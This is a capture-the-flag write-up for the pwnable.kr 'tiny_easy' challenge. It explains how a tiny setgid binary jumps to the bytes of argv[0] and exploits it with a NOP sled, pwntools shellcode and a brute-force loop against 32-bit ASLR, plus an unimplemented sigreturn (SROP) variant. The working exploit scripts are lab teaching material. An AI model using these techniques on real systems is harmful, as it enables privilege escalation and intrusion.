

We get the following hint:
I made a pretty difficult pwn task.
However I also made a dumb rookie mistake and made it too easy :(
This is based on real event :) enjoy.
ssh tiny_easy@pwnable.kr -p2222 (pw:guest)
First, let's connect:
ssh tiny_easy@pwnable.kr -p2222
In /home/tiny_easy we see:
tiny_easy
flag
Binary overview
Running file on the binary:
tiny_easy: setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, no section header
This is a setgid binary, so it runs with group tiny_easy_pwn.
Since the flag is owned by the same group, code execution inside the binary can read it.
Running it immediately results in a crash:
tiny_easy@ubuntu:~$ ./tiny_easy
Segmentation fault (core dumped)
Clearly something goes wrong very early.
Static analysis
Opening the binary in Ghidra, I find that the entire program consists of just four instructions:
0x08048054 pop eax
0x08048055 pop edx
0x08048056 mov edx, dword ptr [edx]
0x08048058 call edx
That’s it.
To sanity check how small this is, I run wc on the file and see it’s only 90 bytes long.
I run checksec --file=./tiny_easy and get:
Arch: i386-32-little
RELRO: No RELRO
Stack: No canary found
NX: NX disabled
PIE: No PIE (0x8048000)
Two interesting things:
- The binary is non-PIE, so the
.textbase address is fixed at0x8048000. - NX is disabled, meaning the stack is executable.
To check ASLR, I run:
cat /proc/sys/kernel/randomize_va_space
and get 2, which means full ASLR is enabled.
Dynamic analysis
When running the binary, it crashes with:
Invalid address 0x6d6f682f
Since there are no symbols, I start it in gdb with starti, which stops on the first executed instruction.
This tells me that the entry point is at 0x08048054.
Now I step instruction by instruction:
0x8048054 pop eax ; EAX = 1
0x8048055 pop edx ; EDX = 0xffb5cd91 (pointer)
0x8048056 mov edx, dword ptr [edx] ; EDX = 0x6d6f682f ('/hom')
0x8048058 call edx ; jump to 0x6d6f682f (crash)
What happens here is:
eaxgets popped first and it’sargc(number of arguments).edxgets a pointer toargv[0](the program name string).- Then
mov edx, [edx]loads the first 4 bytes ofargv[0]intoedx. - Finally it does
call edx, meaning it tries to jump to those 4 bytes as an address.
So if argv[0] starts with /home/..., the first 4 bytes are '/hom'.
Interpreted as a little endian value:
'/hom' => 0x6d6f682f
Just to verify, I run the binary from /tmp/yael/tiny_easy and now it tries to jump to '/tmp' instead.
So the crash address is directly controlled by the contents of argv[0].
Since argv[0] is attacker controlled and can contain raw bytes, this gives direct control over the jump target.
Memory layout
At this point we know a few important things:
- ASLR is enabled
- The stack is executable
- The binary jumps to attacker controlled data from
argv[0]
This means we can place shellcode on the stack (through program arguments or environment variables), and redirect execution to it. The only problem is ASLR: we don’t know the exact stack address on each run.
32-bit ASLR weakness and the NOP sled
We are running with ASLR enabled on a 32-bit system, which reduces the possible address space for the stack. The total virtual address space is 4GB. Out of this, we must allocate:
- Kernel space (typically 1GB, addresses
0xC0000000and above) - Program code (fixed at
0x08048000for non-PIE binaries) - Heap, libraries, and other regions
This leaves only a small window for stack randomization, often in the 0xbf000000 to 0xff000000 range.
On Linux, 32-bit stack ASLR typically provides only about 16 to 19 bits of entropy, depending on the kernel version.
The high byte is mostly fixed, the low 12 bits are page aligned, and only the middle bytes are randomized.
That leaves roughly 2^19 ≈ 524,000 possible stack base addresses.
Why the NOP sled works
A NOP sled is a sequence of nop instructions (0x90) followed by shellcode.
Instead of jumping to the exact address of our shellcode, we jump anywhere into the NOP area and slide forward into the payload.
With a 100,000 byte NOP sled, the probability of success on any given attempt is:
P(hit) = sled_size / address_space
≈ 100,000 / 524,000
≈ 19%
So we should succeed once every 5 to 6 tries.
64-bit comparison
On 64-bit systems, stack ASLR provides much more entropy (28+ bits), so brute forcing like this becomes impractical.
First attempt: spawning a shell
I started with shellcode that spawns a shell:
- Set
argv[0]to an address somewhere in the middle of the possible stack range (0xffb50000). - Set
argv[1]to NOPs followed by shellcode. - Run
tiny_easywith these arguments.
import os
from pwn import *
shellcode = asm(shellcraft.sh())
argv = [
b'\x00\x00\xb5\xff', # argv[0], address 0xffb50000
b'\x90' * 100000 + shellcode
]
os.execv('/home/tiny_easy/tiny_easy', argv)
I run it with a small bash script that automates execution in a loop:
i=0
while true; do
i=$((i+1))
echo "[*] try #$i"
python3 sol.py
echo "[!] crashed, retrying..."
done
Running it:
./automate.sh
This quickly gives me a shell, but:
$ whoami
tiny_easy
$ cat flag
cat: flag: Permission denied
The shell drops the elevated group privileges, so this method won’t work.
Final exploit: cat the flag
Instead of spawning a shell, I switch to shellcode that runs cat on the flag directly:
from pwn import *
import os
context.arch = 'i386'
context.os = 'linux'
path = b'/home/tiny_easy/flag'
shellcode = asm(shellcraft.i386.linux.cat2(path))
argv = [
b'\x00\x00\xb5\xff', # argv[0], address 0xffb50000
b'\x90' * 100000 + shellcode
]
os.execv('/home/tiny_easy/tiny_easy', argv)
Running it again with the same automation script:
./automate.sh
After a few tries:
[*] try #22
Such_a_tiny_task:_Great_job_done_here!
Alright :)

Alternative approach: using vDSO + SROP (not implemented)
While analyzing the binary, I noticed that eax is controlled by the number of program arguments (argc).
For example:
00:0000│ esp 0xffde5dc0 ◂— 3
01:0004│ 0xffde5dc4 —▸ 0xffde6d89 ◂— '/home/tiny_easy/tiny_easy'
02:0008│ 0xffde5dc8 —▸ 0xffde6da3 ◂— 0x310031 /* '1' */
03:000c│ 0xffde5dcc —▸ 0xffde6da5 ◂— 0x310031 /* '1' */
So the first instruction (pop eax) loads argc into eax, which immediately made me think about syscalls.
What is vDSO?
The vDSO (virtual Dynamic Shared Object) is a small shared library that the kernel maps into every process. It provides fast access to certain system calls without the overhead of a full context switch.
Looking at the memory layout:
0x8048000 0x8049000 r-xp 1000 0 tiny_easy
0xf7ff8000 0xf7ffc000 r--p 4000 0 [vvar]
0xf7ffc000 0xf7ffe000 r-xp 2000 0 [vdso]
0xfffdd000 0xffffe000 rwxp 21000 0 [stack]
On 32-bit Linux, especially older systems, vDSO can be mapped at a fixed address like 0xf7ffc000.
That makes it a good target for gadgets.
Finding gadgets in vDSO
I couldn’t find an int 0x80 gadget inside the binary itself, but I did find one inside the vDSO.
That means I can redirect execution to the vDSO and trigger a syscall.
SROP (Sigreturn-Oriented Programming)
The sigreturn syscall (number 77 on i386) restores process state after handling a signal.
By setting argc = 77, eax is loaded with the sigreturn syscall number.
Then, by setting argv[0] to point to an int 0x80 gadget in vDSO, the program ends up executing a sigreturn.
At that point, we can place a fake signal frame on the stack to control registers like eip.
From there, execution can be redirected back to the stack and into a NOP sled + shellcode.
Crafting the sigreturn frame
from pwn import *
import os
context.arch = 'i386'
frame = SigreturnFrame()
frame.eip = 0xffb50000 # jump to the NOP sled
shellcode = asm(shellcraft.i386.linux.cat2(b'/home/tiny_easy/flag'))
argv = [
p32(0xf7ffd429), # argv[0]: int 0x80 gadget
bytes(frame) + shellcode # argv[1]: fake frame + shellcode
] + [b'A'] * 75 # padding to make argc = 77
os.execv('/home/tiny_easy/tiny_easy', argv)
I didn’t use this approach since the direct NOP sled method is simpler and works just as well. The sigreturn technique is more useful when you have constraints that make direct jumps harder.
References
- ASLR weakness in 32-bit systems: https://www.scs.stanford.edu/nyu/05sp/sched/readings/asrandom.pdf